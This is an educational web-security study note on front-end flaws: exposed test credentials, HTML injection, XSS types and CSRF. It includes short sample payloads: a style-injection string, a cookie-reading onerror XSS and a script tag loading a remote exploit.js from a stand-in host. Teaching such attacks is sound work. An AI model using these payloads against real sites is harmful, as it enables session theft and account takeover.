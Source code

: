 # 🌂 Front End Vulnerabilities

## Sensitive Data Exposure

[Sensitive Data Exposure](https://owasp.org/www-project-top-ten/2017/A3\_2017-Sensitive\_Data\_Exposure) refers to the availability of sensitive data in clear-text to the end-user.

It can be utilized to gain access to sensitive functionality (i.e., an admin panel), which may lead to compromising the entire server.

#### Example:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And if we look at the page source:

```html
<form action="action_page.php" method="post">

    <div class="container">
        <label for="uname"><b>Username</b></label>
        <input type="text" required>

        <label for="psw"><b>Password</b></label>
        <input type="password" required>

        <!-- TODO: remove test credentials test:test -->

        <button type="submit">Login</button>
    </div>
</form>

</html>
```

Good to note that these human flaws are not very common but we could find other things such as test pages or directories, debugging parameters, or hidden functionality.

## HTML Injection

Another major aspect of front end security is validating and sanitizing accepted user input.

[HTML injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/11-Client-side\_Testing/03-Testing\_for\_HTML\_Injection) occurs when unfiltered user input is displayed on the page.

When a user has complete control of how their input will be displayed, they can submit `HTML` code, and the browser may display it as part of the page. This may include a malicious `HTML` code, like an external login form, which can be used to trick users into logging in while actually sending their login credentials to a malicious server to be collected for other attacks.

Let's say we have this simple input page:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If there is no sanitizing and we input this malicious code:

```html
<style> body { background-image: url('https://academy.hackthebox.com/images/logo.svg'); } </style>
```

The website will look like this:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Cross-Site Scripting (XSS)

[Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/) attacks works by injecting `JavaScript` code to be executed on the client-side. Once we can execute code on the victim's machine, we can potentially gain access to the victim's account or even their machine.

here are the main types:

| Type            | Description                                                                                                                               |
| --------------- | ----------------------------------------------------------------------------------------------------------------------------------------- |
| `Reflected XSS` | Occurs when user input is displayed on the page after processing (e.g., search result or error message).                                  |
| `Stored XSS`    | Occurs when user input is stored in the back end database and then displayed upon retrieval (e.g., posts or comments).                    |
| `DOM XSS`       | Occurs when user input is directly shown in the browser and is written to an `HTML` DOM object (e.g., vulnerable username or page title). |

We saw earlier the HTML injection, from that input, we could've printed out the session cookie via a DOM based XSS:

```javascript
#"><img src=/ onerror=alert(document.cookie)>
```

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

## Cross-Site Request Forgery (CSRF)

&#x20;[Cross-Site Request Forgery (CSRF)](https://owasp.org/www-community/attacks/csrf) is caused by unfiltered user input and is used to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user.

A common `CSRF` attack to gain higher privileged access to a web application is to craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker.

Another way of exploiting this would be to instead of using `JavaScript` code that would return the session cookie, we would load a remote `.js` (`JavaScript`) file, as follows:

```html
"><script src=//www.example.com/exploit.js></script>
```
